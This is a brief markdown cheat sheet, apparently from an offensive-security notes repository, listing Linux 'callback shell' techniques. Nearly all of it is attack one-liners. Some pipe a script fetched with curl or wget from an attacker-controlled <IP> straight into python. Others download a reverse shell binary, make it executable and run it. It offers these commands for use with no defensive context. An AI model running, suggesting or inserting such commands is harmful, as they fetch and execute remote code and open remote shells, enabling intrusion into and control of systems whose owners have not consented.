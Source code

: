 # Linux

## 01 - Unix Shell

### 1.1 - Basics

#### 1.1.1 - Callback Shell

1. **Fileless**

`$ curl http[s]://<IP>/shell.py | python`

- If the machine doesn't have `curl` installed you can use `wget` to execute it through memory

`$ wget -qO- http[s]://<IP>/shell.py | python`

2. **On Disk**

Download reverse shell binary and execute it

`$ curl -o shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf`

`$ wget -O shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf`